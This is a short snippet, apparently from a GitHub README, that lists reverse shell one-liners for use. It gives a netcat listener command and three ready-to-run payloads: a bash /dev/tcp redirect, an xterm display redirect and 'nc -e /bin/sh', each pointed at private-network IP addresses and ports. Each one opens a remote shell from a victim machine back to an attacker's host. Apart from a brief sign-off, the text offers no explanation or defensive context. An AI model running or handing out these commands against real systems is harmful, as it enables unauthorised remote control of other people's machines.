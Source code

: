 To use any reverse shell here, open a connection on your machine: nc -lvnp 4444

Some variables you can try when it comes to reverse shell:

> bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
> xterm -display 192.168.0.5:4444
> nc -e /bin/sh 192.168.0.5 4444

Good Lucky !
